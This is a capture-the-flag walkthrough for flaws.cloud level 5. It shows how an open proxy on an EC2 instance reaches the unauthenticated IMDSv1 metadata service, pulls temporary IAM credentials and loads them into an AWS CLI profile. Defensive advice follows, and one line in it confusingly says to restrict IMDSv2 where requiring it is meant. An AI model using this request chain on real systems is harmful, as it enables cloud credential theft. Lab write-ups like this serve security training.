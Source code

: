 You are given a proxy connection on EC2 instance that works like:
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/ 

Anything after "proxy" in the URL path is interpreted as the proxy destination. 

Knowing this, you are able to access the IMDS metadata service on the EC2. It appears to have IMDSv1 enabled, which is not authenticated.
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

From here, you can explore the various metadata fields before locating some AWS IAM credentials:
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

The problem with these credentials is that they are temporary and are associated with a token. So, your `~/.aws/credentials/` file needs to include the access key ID, the access key itself, and the temporary session token.

These can be added to the `~/.aws/credentials/` file manually, or can be set using the `aws configure` command:
``` bash
aws configure --profile flaws-level-5
aws configure set aws_session_token <token> --profile flaws-level-5
```

At the end, your `~/.aws/credentials/` file should look like:
```
[flaws-level-5]
aws_access_key_id = ASIA<key-id>
aws_secret_access_key = <key-value>
aws_session_token = <base64-encoded-session-token>
```

With this access key configured within an `aws` CLI profile, you can now check whether you have access to list the contents of the Level 6 bucket, thus locating the start of level 6 and completing challenge 5.

## Guidance

The guidance for this section is that the IMDS metadata service can be a double-edged sword. It allows various cloud resources across various cloud providers to query themselves to access details about their deployment and configuration in the environment. If we're not careful though, this sensitive information can be made available to attackers as well.

For any application, never allow access to local files or IP ranges - this inludes the metadata service on 169.254.169.254. We would never want users of our application to be able to enumerate our internal configs. This can be done with AWS Security Groups and sound application design that follows security best practices.

Additionally, require the use of IMDSv2 which requires authentication to access the metadata. By default, both IMDSv1 and IMDSv2 are allowed, so make sure and restrict the use of IMDSv2.

Also, make sure your applications don't depend on any logic that trusts or relies on `X-Forwarded-For` headers. IMDSv2 automatically denies requests to the metadata service that include this header. 
